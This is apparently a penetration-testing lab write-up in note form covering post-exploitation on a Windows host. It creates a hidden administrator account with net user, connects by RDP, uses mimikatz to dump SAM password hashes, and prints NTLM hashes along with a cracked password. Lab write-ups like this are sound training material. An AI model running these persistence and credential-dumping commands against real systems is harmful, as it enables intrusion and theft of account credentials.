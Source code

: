 Now that we have a root shell on the windows box .150 

First we create the account itself:  
`net user USERNAME PASSWORD /add`  

user: keez pw: asdf123

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:  
`net localgroup Administrators USERNAME /add  
net localgroup "Remote Management Users" USERNAME /add`

We can now rdp to this box for stable access. 


---

I chose to use xfreerdp and mount windows-resources from attack box

`xfreerdp /v:10.200.84.150 /u:keez /p:asdf123 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

___

We can now use mimikatz to dump local account password hashes
Open up cmd with admin priviledges

With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:  
`privilege::debug  
token::elevate`

Then dump the SAM local password hashes
`lsadump::sam`

---

We now have the administrator hashes

Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

And Thomas

RID  : 000003e9 (1001)
User : Thomas
Hash NTLM: 02d90eda8f6b6b06c32d5f207831101f

Using Crackstation, we see Thomas' password is **i<3ruby**


from [[enumeration 03]] we know the following ports are open:

```bash
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```



